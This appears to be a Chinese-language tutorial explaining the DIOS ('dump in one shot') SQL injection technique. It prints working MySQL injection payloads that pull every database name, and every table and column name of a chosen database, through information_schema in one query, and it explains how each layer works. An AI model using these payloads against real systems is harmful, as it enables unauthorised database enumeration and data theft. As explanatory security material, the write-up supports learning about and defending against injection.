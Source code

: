 在https://mp.weixin.qq.com/s/84se5CxYlVT05bcw654wKg 这篇文章中首次看到的DIOS，感觉好像很厉害的样子，遂去网上开始找资料

先说结论（个人理解）：不是什么新的SQL注入漏洞利用方式，只是一种“在一条语句中提取全部数据的方便的”提取方式

# 获取所有数据库名：  
```
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))))a);
```
![image](./0.png)  
解释：  
首先需要知道3个事：  
1、@a是sql中的变量，涉及到它的表达式需要用括号扩上  
2、:=是sql中的赋值符号  
3、sql中的函数concat有一个特性，如果参数中有一个为NULL，那么结果为NULL，所以需要先执行select(@a:=0x00)  
从最内层开始解释：  
```
(@a:=concat(@a,schema_name,'<br>'))
```
连接这3个参数的值  
倒数第二层的解释，此时语句变成了：  
```
(select (@a) from ( information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>')) )
```
通常的where in用法形如：select x from y where x in (1,2,3)从表y中选择字段x，然后x的值范围是（1,2,3）  
但是此条语句并不是通常的where in用法，而是将information_schema.schemata中schema_name的值依次添加到变量@a中  
倒数第三层的解释，此时语句变成了：  
```
(select (@a) from (select(@a:=0x00),expr1)a);
```
再进一步简化一下：  
```
(select (@a) from (expr2)a);
```
此条语句即表示：选择@a的值  
此时查看@a的值如下  
![image](./1.png)  
此时
```
(select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))));
```
的值如下  
![image](./2.png)  

# 获取指定数据库的全部表名和字段名
```
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(table_schema='anyisec')and(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a);
```
![image](./3.png)  
